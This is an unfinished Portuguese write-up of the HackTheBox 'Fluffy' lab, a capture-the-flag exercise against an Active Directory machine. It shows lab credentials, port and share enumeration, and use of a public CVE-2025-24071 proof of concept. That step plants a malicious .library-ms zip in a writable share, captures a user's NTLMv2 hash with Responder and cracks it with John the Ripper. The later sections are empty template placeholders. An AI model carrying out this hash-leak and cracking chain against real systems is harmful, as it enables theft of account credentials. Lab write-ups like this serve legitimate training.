

# Subtítulo da horinha

![[Fluffy.png | descrição da imagem]]

## Introdução

Olá mundo! Sejam todos bem vindos à mais uma aventura cibernética no hackthebox. A máquina de hoje chama-se Fluffy, classificada como de dificuldade fácil.

Nessa máquina temos um cenário Assumed Breach, onde simulamos um invasor que já obteve credenciais válidas no domínio. Começamos com as credenciais j.fleischman  : J0elTHEM4n1990!, onde encontramos um PDF com um anúncio sobre procedimentos de atualização e uma lista de vulnerabilidades recentes, na pasta compartilhada IT. Abusando de uma das vulnerabilidades, conseguimos a hash NTLMv2 do usuário p.agila, que podemos quebrar e conseguir a senha. Usando a ferramenta Bloodhound-python para enumerar o domínio, descobrimos que p.agila fazia parte do grupo SERVICE ACCOUNT MANAGERS e que por isso tinha privilégios GenericAll sobre os usuários do grupo SERVICE ACCOUNTS. Depois de obter a hash NT de um desses usuários por meio de um ataque shadow credentials, nós conseguimos o root por meio da vulnerabilidade ESC16.

Isso vai ser bem interessante, então vamos começar.

## Enumeração

### Nmap

Como de costume, comecei fazendo uma varredura de portas com a ferramenta NMAP.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Fluffy]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -Pn -p$ports -sC -sV -oA nmap/$machine -vv $IP
[sudo] password for kali:

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-25 07:15:28Z)
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T07:17:06+00:00; +7h01m48s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49733/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 27546/tcp): CLEAN (Timeout)
|   Check 2 (port 14134/tcp): CLEAN (Timeout)
|   Check 3 (port 13970/udp): CLEAN (Timeout)
|   Check 4 (port 53531/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h01m47s, deviation: 0s, median: 7h01m47s
| smb2-time:
|   date: 2025-05-25T07:16:26
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:15
Completed NSE at 21:15, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:15
Completed NSE at 21:15, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:15
Completed NSE at 21:15, 0.01s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.85 seconds
           Raw packets sent: 18 (792B) | Rcvd: 18 (792B)
```

As portas abertas davam evidência de que se tratava de um Microsoft Windows Active Directory. A porta 445 (SMB) também está aberta, o que me deu a oportunidade de verificar se haviam pastas compartilhadas acessíveis pelo meu usuário.

Usando a ferramenta Netexec, fiz a verificação de shares, ou pastas compartilhadas.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Fluffy]
└─$ nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
SMB         10.129.102.71   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.102.71   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.129.102.71   445    DC01             [*] Enumerated shares
SMB         10.129.102.71   445    DC01             Share           Permissions     Remark
SMB         10.129.102.71   445    DC01             -----           -----------     ------
SMB         10.129.102.71   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.102.71   445    DC01             C$                              Default share
SMB         10.129.102.71   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.102.71   445    DC01             IT              READ,WRITE
SMB         10.129.102.71   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.102.71   445    DC01             SYSVOL          READ            Logon server share
```

### Smb

Havia uma pasta incomum chamada IT onde meu usuário possuía direitos de leitura e escrita. Isso era bom, pois podia me conectar e verificar o que tinha dentro. Dentro havia um executável do programa Everything, que é um mecanismo de busca que localiza arquivos e pastas por nome de arquivo instantaneamente para Windows. Havia também uma versão do programa Keepass e um documento em PDF. Então baixei tudo para minha máquina usando Smbclient.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Fluffy]
└─$ smbclient -U j.fleischman //fluffy.htb/IT
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun May 25 04:43:38 2025
  ..                                  D        0  Sun May 25 04:43:38 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 12:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 12:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 12:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 12:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 11:31:07 2025

                5842943 blocks of size 4096. 1752063 blocks available
smb: \> get Everything-1.4.1.1026.x64.zip
getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (418.6 KiloBytes/sec) (average 418.6 KiloBytes/sec)
smb: \> get KeePass-2.58.zip
getting file \KeePass-2.58.zip of size 3225346 as KeePass-2.58.zip (354.2 KiloBytes/sec) (average 375.1 KiloBytes/sec)
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (77.1 KiloBytes/sec) (average 333.2 KiloBytes/sec)
smb: \>
```

Outra coisa que fiz foi enumerar o Active Directory com o Bloodhound.py que vem no Netexec, com o comando `nxc ldap target fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --bloodhound --collection All --dns-server $IP`.

Olhando o arquivo PDF, achei algo interessante. Era um anúncio de patch de segurança, com instruções sobre como os agendamentos  de atualização deveriam ser feitos e as vulnerabilidades recentes que foram divulgadas. Pesquisando cada vulnerabilidade, achei que a CVE-2025-24071 NTLM Hash Leak via .library-ms poderia se útil.

> [!info] CVE-2025-24071
> O Windows Explorer inicia automaticamente uma solicitação de autenticação SMB quando um arquivo .library-ms é extraído de um arquivo .rar ( ou .zip ), o que leva à divulgação da hash NTLM. O usuário não precisa abrir ou executar o arquivo - basta extraí-lo para acionar o vazamento da hash.

## Acesso Inicial

### CVE-2025-24071

Para executar a exploração da CVE-2025-24071, usei esta [POC](https://github.com/0x6rss/CVE-2025-24071_PoC) pública. Primeiro, usei o script Python para gerar um arquivo malicioso chamado malicious.library-ms, compactado como exploit.zip.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Fluffy]
└─$ python3 poc.py
Enter your file name: malicious
Enter IP (EX: 192.168.1.162): 10.10.14.185
completed
```

Depois disso eu usei a ferramenta Responder para monitorar todo o tráfego que passasse pela minha interface de rede tun0 (VPN), com o comando `sudo responder -I tun0 -v`. Em seguida, usei o Smbclient para fazer o upload do exploit.zip para a pasta compartilhada.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Fluffy]
└─$ smbclient -U j.fleischman //fluffy.htb/IT
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> Put exploit.zip
putting file exploit.zip as \exploit.zip (0.2 kb/s) (average 0.2 kb/s)
smb: \> dir
  .                                   D        0  Mon May 26 21:29:26 2025
  ..                                  D        0  Mon May 26 21:29:26 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 12:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 12:04:05 2025
  exploit.zip                         A      328  Mon May 26 21:29:27 2025
  KeePass-2.58                        D        0  Fri Apr 18 12:08:38 2025
  KeePass-2.58.zip                    A  3225346  Mon May 26 18:25:12 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 11:31:07 2025

                5842943 blocks of size 4096. 2073632 blocks available
```

Por fim, depois de alguns segundos, capturei a hash NTLMv2 do usuário p.agila.

```bash
---<SNIPED>---

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.155.175
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:0d1322279c6f82e9:4CE03066B60B1715E3E4AF8DC543798A:0101000000000000808E77884ACEDB01AC2B7DFC4BCA533D00000000020008004D0049003100490001001E00570049004E002D004F0037003500570051003700430050004B004D00460004003400570049004E002D004F0037003500570051003700430050004B004D0046002E004D004900310049002E004C004F00430041004C00030014004D004900310049002E004C004F00430041004C00050014004D004900310049002E004C004F00430041004C0007000800808E77884ACEDB010600040002000000080030003000000000000000010000000020000053770479FD0DE8F87A573E25D30672641553521DBB76ABAC89DB9380281F06DC0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380035000000000000000000

---<SNIPED>---
```

Usando a ferramenta John the Ripper, consegui descobrir a senha do usuário p.agila fazendo um ataque de dicionário.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Fluffy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-p.agila
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prometheusx-303  (p.agila)
1g 0:00:00:07 DONE (2025-05-26 14:33) 0.1424g/s 643573p/s 643573c/s 643573C/s promo04..programmercomputer
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

### Bloodhound

Quando eu estava hackeando a máquina Puppy, tive problemas com a versão base do Bloodhound e daí baixei a versão Community Edition. Só que essa versão tem requisitos mínimos que estão acima do que eu posso usar na minha VM. Então dessa vez eu reinstalei a versão base, mas tinha uma supresa: A nova versão também é Community Edition, ou seja, os requisitos são quase os mesmos, porém uma versão usa Neo4j diretamente e a outra usa Docker-Compose.

Já estava triste sabendo que teria de fazer as relações entre usuários e grupos manualmente de novo, porém, tive uma idéia de última hora que acabou salvando o dia. Comecei a pedir para o chatGPT que me ajudasse na análise dos arquivos Json gerados pelo Bloodhound usando queries jq.

Depois de várias tentativas mal-sucedidas, uma query funcionou perfeitamente. Eu havia conseguido pesquisar um usuário pelo samaccountname e, em resposta, saber qual grupo esse usuário faz parte e quais privilégios ele tem sobre outros usuários.

Muito feliz com o resultado, pedi ao chatGPT para transformar as queries em um script que poderia automatizar o processo todo, só bastando colocar o nome do usuário que eu desejasse obter informação. Pesquisando por p.agila usando o script, pude montar o diagrama a seguir:



### Shell como winrm_svc


## Escalação de Privilégios

Escalada de privilégios até o root

## Conclusão

![[FluffyFinal.png | descrição da imagem]]

Palavras finais sobre o que aprendeu e CTA.

Você pode usar links internos: [[outra-nota]]
E inserir imagens: ![[imagem.png | descrição da imagem]]
Ou blocos de código:

```bash
echo "Exemplo de comando"
```
